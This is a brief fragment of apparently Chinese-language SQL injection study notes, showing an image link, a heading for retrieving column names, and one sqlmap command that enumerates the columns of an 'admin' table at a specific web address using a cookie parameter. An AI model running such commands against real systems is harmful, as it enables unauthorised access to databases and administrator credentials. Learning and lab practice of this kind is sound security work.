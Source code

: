 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675318943562-104bf47f-1a89-4630-af46-2b04b92789f9.png)
获取字段名

```sql
sqlmap -u "http://d8.s.iproute.cn/shownews.asp" --cookie "id=27" --level 2 -T "admin" --columns
```
